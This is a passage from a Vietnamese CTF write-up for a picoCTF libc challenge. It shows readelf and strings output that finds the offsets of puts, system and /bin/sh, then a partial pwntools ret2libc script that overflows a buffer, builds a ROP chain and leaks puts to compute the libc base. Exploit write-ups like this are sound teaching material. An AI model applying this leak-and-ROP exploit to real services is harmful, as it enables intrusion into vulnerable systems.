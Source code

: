```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/Pico/Here_libc$ readelf -sW /mnt/d/pwn_myself/Pico/Here_libc/libc.so.6 | grep "puts"
   191: 0000000000080a30   512 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
   422: 0000000000080a30   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
   496: 0000000000126870  1240 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
   678: 0000000000128780   750 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
  1141: 000000000007f260   396 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
  1677: 000000000007f260   396 FUNC    GLOBAL DEFAULT   13 _IO_fputs@@GLIBC_2.2.5
  2310: 000000000008a6b0   143 FUNC    WEAK   DEFAULT   13 fputs_unlocked@@GLIBC_2.2.5
```

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/Pico/Here_libc$ readelf -sW /mnt/d/pwn_myself/Pico/Here_libc/libc.so.6 | grep "system"
   232: 000000000015a020    99 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.2.5
   607: 000000000004f4e0    45 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1403: 000000000004f4e0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/Pico/Here_libc$ strings -tx /mnt/d/pwn_myself/Pico/Here_libc/libc.so.6 | grep "/b
in/sh"
 1b40fa /bin/sh
```

Đây chỉ mới là offset, do đó cần tính địa chỉ thực dựa vào libc base

> system_address = libc_base + system_offset
>
> binsh_address = libc_base + binsh_offset

Sau khi gọi hàm puts thì cũng đừng quên ret về hàm khác **(do_stuff)** để tránh lỗi, chứ không puts xong thì nó biết làm gì nựa giờ.

Sau khi có địa chỉ đầy đủ thì payload cuối cùng so ez

## Exploit local basic

```python
from pwn import *

binary  = context.binary = ELF('./vuln')
r = process(binary.path)
#gdb.attach(r, api=True)

ret = 0x000000000040052e
pop_rdi_ret = 0x0000000000400913
do_stuff = 0x4006d8
plt_puts = 0x400540
got_puts = 0x601018

junk = b"a" * 136
payload = junk + p64(ret) + p64(pop_rdi_ret) + p64(got_puts) + p64(plt_puts) 
payload += p64(ret) + p64(do_stuff)

r.sendline(payload)

leak = r.recvline()
leak = r.recvline()

leak = u64(r.recvline().strip().ljust(8,b"\x00"))
log.info('puts: ' + hex(leak))

offset_puts = 0x0000000000080a30
libc_base = leak - offset_puts
```